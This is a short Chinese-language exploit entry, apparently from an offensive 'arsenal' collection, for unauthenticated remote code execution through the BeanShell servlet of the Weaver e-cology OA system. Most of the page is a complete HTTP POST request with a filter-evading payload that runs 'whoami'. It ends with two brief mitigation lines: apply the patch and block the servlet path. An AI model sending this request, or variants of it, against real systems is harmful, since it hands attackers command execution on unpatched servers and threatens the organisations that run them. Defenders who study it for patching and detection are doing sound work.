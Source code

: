 ```yaml
---
title: '泛微OA-Bsh-远程代码执行漏洞'
date: Thu, 17 Sep 2020 07:40:43 +0000
draft: false
tags: ['白阁-武器库']
---
```


#### 详情

泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重

#### 利用方式

```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw 
```防护方法 1.及时更新泛微补丁 2.拦截/weaver/bsh.servlet.BshServlet目录的访问